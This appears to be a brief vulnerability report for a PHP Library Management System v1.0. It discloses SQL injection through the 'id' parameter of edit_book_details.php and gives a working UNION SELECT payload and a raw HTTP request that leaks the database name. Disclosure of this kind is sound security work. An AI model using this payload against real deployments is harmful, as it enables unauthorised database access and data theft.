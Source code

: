 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/staff/edit_book_details.php?id=

Vulnerability location:  /LMS/staff/edit_book_details.php?id=, id

[+] Payload: /LMS/staff/edit_book_details.php?id=-191%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /LMS/staff/edit_book_details.php?id=-191%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180444306-15ab40e1-2e0e-4adf-acea-1b3fd534e19d.png)
